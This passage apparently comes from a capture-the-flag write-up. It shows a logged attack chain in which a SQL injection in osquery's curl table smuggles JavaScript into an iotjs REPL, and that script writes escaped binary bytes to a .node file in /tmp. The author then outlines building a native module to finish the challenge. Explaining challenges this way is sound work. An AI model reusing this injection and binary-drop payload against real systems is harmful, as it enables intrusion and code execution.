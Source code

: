 ```json
  {"cmdline":"sh -c echo 'SELECT '\\''1'\\'';select * from curl where url='\\''http://127.0.0.1:16324'\\'' and user_agent='\\''\n\n\n\n\n\n\n\n\n\n\n\n\n\nvar chunk=new Buffer(\"\\x50\\xe5\\x74\\x64\\x04\\x00\\x00\\x00\\xb4\\x20\\x00\\x00\\x00\\x00\\x00\\x00\\xb4\\x20\\x00\\x00\\x00\\x00\\x00\\x00\\xb4\\x20\\x00\\x00\\x00\\x00\\x00\\x00\\x3c\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x3c\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x04\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x51\\xe5\\x74\\x64\\x06\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x10\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x52\\xe5\\x74\\x64\\x04\\x00\\x00\\x00\\xf8\\x2d\\x00\\x00\\x00\\x00\\x00\\x00\\xf8\\x3d\\x00\\x00\\x00\\x00\\x00\\x00\\xf8\\x3d\\x00\\x00\\x00\\x00\\x00\\x00\\x08\\x02\\x00\\x00\\x00\\x00\\x00\\x00\\x08\\x02\\x00\\x00\\x00\\x00\\x00\\x00\\x01\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x04\\x00\\x00\\x00\\x10\\x00\\x00\\x00\\x05\\x00\\x00\\x00\\x47\\x4e\\x55\\x00\\x02\\x00\\x00\\xc0\\x04\\x00\\x00\\x00\\x03\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x04\\x00\\x00\\x00\\x14\\x00\\x00\\x00\\x03\\x00\\x00\\x00\\x47\\x4e\\x55\\x00\\xa9\\x1c\\xaf\\xac\\xe6\\x44\\xfe\\x91\\xc4\\x75\\x0b\\xb6\\xcf\\xf5\\xb3\\xb3\\xc7\\x04\\xe3\\x77\\x00\\x00\\x00\\x00\\x02\\x00\\x00\\x00\\x0b\\x00\\x00\\x00\\x01\\x00\\x00\\x00\\x06\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x80\\x00\\x20\\x00\\x00\\x00\\x00\\x0b\\x00\\x00\\x00\\xfd\\x9b\\xbc\\xdc\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x10\\x00\\x00\\x00\\x20\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\xb0\\x00\\x00\\x00\\x10\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x5c\\x00\\x00\\x00\\x12\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x7b\\x00\\x00\\x00\\x12\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x55\\x00\\x00\\x00\\x12\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x99\\x00\\x00\\x00\\x10\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x01\\x00\\x00\\x00\\x20\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x63\\x00\\x00\\x00\\x10\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x2c\\x00\\x00\\x00\\x20\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\\x00\");var glzjins_girlfriend=require(\"fs\").openSync(\"/tmp/zglzjin_girlfriend4.node\",\"a\");require(\"fs\").writeSync(glzjins_girlfriend, chunk, 0, chunk.length);\n\n\n\n\n\n\n\n\n\n\n//'\\'';select '\\''sqlmap'\\'' as hello;' | osqueryi --json"},
  {"cmdline":"osqueryi --json"},
  {"cmdline":"/src/iotjs/build/x86_64-linux/debug/bin/iotjs /src/iotjs/tools/repl.js"},
  {"cmdline":"sh -c echo 'SELECT '\\''world'\\'';select cmdline from processes;--'\\'' as hello;' | osqueryi --json"},
  {"cmdline":"osqueryi --json"}
...
```

.. and this was where my teammates were stuck. They asked for an help so I decided to take a few more steps to solve the challenge.

From this payload we know that

1. There is some bug in `curl` table where we can write arbitrary header packets.
2. `http://127.0.0.1:16324` runs `repl.js` from iotjs (https://github.com/jerryscript-project/iotjs)
3. The attacker has uploaded some interesting binary data, so I assumed that it may be possible to upload some native modules for iotjs.

From here, all you need is to carefully read the official documentation of iotjs and build your native module by using `node-gyp`.

* https://github.com/jerryscript-project/iotjs/blob/master/docs/devs/Writing-New-Module.md
* https://github.com/jerryscript-project/iotjs/blob/master/docs/api/IoT.js-API-N-API.md
